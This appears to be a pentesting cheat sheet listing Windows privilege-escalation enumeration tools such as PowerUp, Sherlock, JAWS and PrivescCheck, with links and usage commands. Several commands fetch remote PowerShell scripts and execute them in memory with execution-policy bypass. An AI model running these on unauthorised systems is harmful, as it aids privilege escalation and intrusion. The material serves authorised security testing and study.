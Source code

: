 PowerUp.ps1:

* [github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
* [github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf)
* [recipeforroot.com/advanced-powerup-ps1-usage/](https://recipeforroot.com/advanced-powerup-ps1-usage/)

```
$ curl -L https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1 > powerup.ps1
PS > Invoke-PrivescAudit
```

Sherlock.ps1:

```
root@kali:$ wget https://github.com/rasta-mouse/Sherlock/raw/master/Sherlock.ps1 && python3 -m http.server 80
powershell.exe -exec bypass -nop -c "iex(new-object net.webclient).downloadstring('http://127.0.0.1/PowerUp.ps1')"
PS > powershell.exe -exec bypass -c "& {Import-Module .\Sherlock.ps1; Find-AllVulns |Out-File sherlock.txt}"
```

Watson:

* [https://github.com/rasta-mouse/Watson](https://github.com/rasta-mouse/Watson)

JAWS:

```
root@kali:$ wget https://github.com/411Hall/JAWS/raw/master/jaws-enum.ps1 && python3 -m http.server 80
PS > powershell.exe -exec bypass -nop -c "iex(new-object net.webclient).downloadstring('http://127.0.0.1/jaws-enum.ps1')"
PS > .\jaws-enum.ps1 -OutputFileName jaws-enum.txt
```

PrivescCheck:

* [github.com/itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck)

```
Cmd > powershell -ep bypass -c ". .\Invoke-PrivescCheck.ps1; Invoke-PrivescCheck -Extended | Tee-Object result.txt"
```

Windows-Exploit-Suggester:

* [github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

```
$ python -u windows-exploit-suggester.py -d 1970-01-01-mssb.xls -i systeminfo.txt --ostext 'windows 10 64-bit' --hotfixes hotfixes.txt | tee wes.log
```

